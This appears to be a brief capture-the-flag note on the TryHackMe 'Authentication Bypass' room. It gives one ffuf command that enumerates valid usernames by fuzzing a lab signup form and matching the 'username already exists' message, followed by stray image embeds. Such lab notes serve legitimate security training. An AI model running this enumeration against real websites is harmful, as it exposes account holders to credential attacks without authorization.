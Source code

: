 https://tryhackme.com/room/authenticationbypass
command bellow will output all username that are a match in the wordlist provided (names.txt) 
           
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.18.108/customers/signup -mr "username already exists"`

<figure><img src="..gitbook/assets/Captussre.JPG" alt="">

<figure><img src="../.gitbook/assets/king-penguin-mouth-270741789.jpg" alt=""><figcaption></figcaption></figure>
